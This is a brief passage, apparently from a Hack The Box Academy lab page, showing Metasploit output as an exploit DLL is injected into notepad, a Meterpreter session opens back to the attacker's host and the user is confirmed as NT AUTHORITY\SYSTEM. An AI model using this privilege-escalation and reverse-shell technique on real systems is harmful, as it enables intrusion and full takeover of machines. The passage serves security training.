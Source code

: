 ```
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

```

[Anterior](https://academy.hackthebox.com/module/39/section/417)